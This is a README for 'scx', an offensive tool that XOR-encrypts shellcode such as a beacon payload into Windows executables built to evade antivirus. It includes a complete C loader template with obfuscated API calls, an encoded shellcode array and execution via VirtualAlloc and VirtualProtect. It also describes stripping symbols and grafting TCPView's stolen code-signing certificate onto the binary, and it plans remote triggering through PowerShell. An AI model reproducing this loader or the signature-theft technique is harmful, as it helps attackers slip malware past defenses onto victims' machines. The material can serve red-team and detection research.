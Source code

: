 # SCX

## Help
```
usage: scx.py [-h] -l  -b  [-k] [-n] [--x64] [--sign] [--strip]

Build XOR'd shellcode executables.

optional arguments:
  -h, --help        show this help message and exit
  -l , --language   Language for payload (c, cs and powershell)
  -b , --binary     Raw file to encrypt
  -k , --key        Key to encrypt with (random by default)
  -n , --name       Name of executable (random by xor_beacon_*.exe)
  --x64             Set compiler to x64
  --sign            Sign with TCPView's Certificate
  --strip           Strip Binary
```

## Sample

Command:

```bash
./scx.py -b beacon.bin -k '2483c6ed59fc549b0db9571c09193edb' --sign --strip -l c
```

```
  ██████  ▄████▄  ▒██   ██▒
▒██    ▒ ▒██▀ ▀█  ▒▒ █ █ ▒░
░ ▓██▄   ▒▓█    ▄ ░░  █   ░
  ▒   ██▒▒▓▓▄ ▄██▒ ░ █ █ ▒ 
▒██████▒▒▒ ▓███▀ ░▒██▒ ▒██▒ Author: mez0
▒ ▒▓▒ ▒ ░░ ░▒ ▒  ░▒▒ ░ ░▓ ░ GitHub: https://github.com/mez-0
░ ░▒  ░ ░  ░  ▒   ░░   ░▒ ░
░  ░  ░  ░         ░    ░  
      ░  ░ ░       ░    ░  
         ░                 

09/09/20, 21:01:51 ==> Architecture: x64
09/09/20, 21:01:51 ==> Key: 2483c6ed59fc549b0db9571c09193edb
09/09/20, 21:01:51 ==> Compiling with: x86_64-w64-mingw32-gcc ./result/xor_beacon_x64.c -o ./result/xor_beacon_x64.exe

09/09/20, 21:01:52 ==> Compiled: ./result/xor_beacon_x64.exe
09/09/20, 21:01:52 ==> Stripped: ./result/xor_beacon_x64.exe
09/09/20, 21:01:52 ==> Signed: ./result/xor_beacon_signed_x64.exe
```

## Installing
```
sudo apt install gcc-mingw-w64 mono-mcs
```

## The details
`scx` was named before I wanted to do AES encryption, originally it was `ShellcodeXor`, hence: `Scx`. Since the initial script I started adding `cs` and `PowerShell`, but didnt get around to doing it (so that PR is welcome!).

So, what this tool does is take a raw bin file, `xor` it and chuck it in [template](https://github.com/mez-0/scx/tree/master/templates). This is typically enough for Windows Defender, but I ended up wrapping some additional features. First off, I randomised the source code to look something like this:

```c
#include <windows.h>

typedef BOOL (WINAPI* fSWoKckHxLOKtdZH)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef LPVOID (WINAPI* fFzRzXJHdsn)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD  flProtect);
typedef VOID (WINAPI* MhEgqVvJJjCtlP)(VOID UNALIGNED* Destination,const VOID UNALIGNED* Source, SIZE_T Length);

int main(void) {
  DWORD oldprotect = 0;
  char ClxeFNxbo[] = { 0x91, 0x81, 0xe1, 0x68, 0x61, 0x65, 0xc, 0xe4, 0x8c, 0x52, 0xa8, 0x5, 0xee, 0x3c, 0x5d, 0xe2, 0x31, 0x64, 0xea, 0x37, 0x78, 0xe6, 0x1b, 0x4b, 0x67, 0xd6, 0x2f, 0x4a, 0x5c, 0x96, 0xcf, 0x54, 0x0, 0x19, 0x6e, 0x41, 0x49, 0xa2, 0xa7, 0x6c, 0x64, 0xab, 0x8f, 0x9b, 0x31, 0x3f, 0xea, 0x37, 0x7c, 0xe6, 0x23, 0x5f, 0xe3, 0x2d, 0x74, 0x14, 0x8e, 0x21, 0x62, 0xb9, 0x30, 0xee, 0x35, 0x4d, 0x68, 0xb0, 0xe3, 0x28, 0x7d, 0x8f, 0x57, 0x20, 0xe8, 0x5c, 0xea, 0x64, 0xba, 0x5c, 0x96, 0xcf, 0xa9, 0xae, 0x68, 0x6d, 0xaa, 0x51, 0x83, 0x1d, 0x97, 0x66, 0x11, 0x95, 0x52, 0x1e, 0x4c, 0x14, 0x81, 0x34, 0xe6, 0x31, 0x47, 0x69, 0xb2, 0x3, 0xe7, 0x61, 0x22, 0xe8, 0x30, 0x7d, 0x64, 0xbf, 0xe6, 0x6d, 0xe8, 0x69, 0xb1, 0xec, 0x28, 0x49, 0x4d, 0x38, 0x33, 0x0, 0x3c, 0x36, 0x3c, 0x96, 0x83, 0x37, 0x3e, 0x3f, 0xe7, 0x7f, 0x82, 0xee, 0x35, 0xb, 0x64, 0xe1, 0xe8, 0xdb, 0x63, 0x68, 0x61, 0x35, 0x4, 0x5c, 0xe2, 0xc, 0xef, 0x9e, 0xb0, 0xd7, 0x9d, 0xdc, 0xc1, 0x3e, 0x9, 0xc3, 0xf9, 0xd0, 0xf4, 0x9c, 0xbd, 0x5d, 0x63, 0x10, 0x67, 0xe9, 0x98, 0x88, 0x14, 0x60, 0xd7, 0x2a, 0x7a, 0x11, 0x7, 0xb, 0x65, 0x3f, 0x92, 0xbc, 0x0, 0x9, 0xd, 0x6, 0x42, 0x8, 0x11, 0x6, 0x68 };
  
  char key[] = "michael";

  char hanDsXQ[sizeof ClxeFNxbo];

  int j = 0;

  for (int i = 0; i < sizeof ClxeFNxbo; i++) {
    if (j == sizeof key - 1) j = 0;
    hanDsXQ[i] = ClxeFNxbo[i] ^ key[j];
    j++;
  }

  fSWoKckHxLOKtdZH WHvHcFwxKyvQlsV = (fSWoKckHxLOKtdZH)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualProtect");
  fFzRzXJHdsn qiPSRCVqjtEliB = (fFzRzXJHdsn)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");
  MhEgqVvJJjCtlP AzLBPqsgwntXdKWN = (MhEgqVvJJjCtlP)GetProcAddress(GetModuleHandle("Ntdll.dll"), "RtlMoveMemory");

  LPVOID pAddress = qiPSRCVqjtEliB(0, sizeof hanDsXQ, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  AzLBPqsgwntXdKWN(pAddress, hanDsXQ, sizeof hanDsXQ);

  BOOL isUpdated = WHvHcFwxKyvQlsV(pAddress, sizeof hanDsXQ, PAGE_EXECUTE_READ, &oldprotect);

  if (isUpdated != 0) {
    ((void(*)())pAddress)();
  }
  return 0;
}
```

At the top, I began obfuscating the Windows API Calls but didn't get around to encrypting the strings. Again, another PR welcome! Later on I ended up wrapping [strip](https://sourceware.org/binutils/docs/binutils/strip.html) to remove symbols and object files. Finally, I introduced the work of [@ausernamedjosh](https://twitter.com/ausernamedjosh) and his [SigThief](https://github.com/secretsquirrel/SigThief) project. Full kudos to him for that code. In his words:

> In short it will rip a signature off a signed PE file and append it to another one, fixing up the certificate table to sign the file.

For this, I borrowed [get_file_info_win](https://github.com/secretsquirrel/SigThief/blob/211b4fe0b2f2ac5e4fd71c99c96f1bfcbcd322dc/sigthief.py#L12) and [signfile](https://github.com/secretsquirrel/SigThief/blob/211b4fe0b2f2ac5e4fd71c99c96f1bfcbcd322dc/sigthief.py#L191). The signature in this project is from [TCPView](https://github.com/mez-0/scx/blob/master/lib/sig/Tcpview.exe_sig).

Full credit to [@ausernamedjosh](https://twitter.com/ausernamedjosh) on that.

## Todo

1. Finish off C# template by embedding AES Encrypted blobs.
2. Use that c# template to the be execute via PowerShell to create something remotely triggerable
3. Finish off encrypting the strings for the C implementation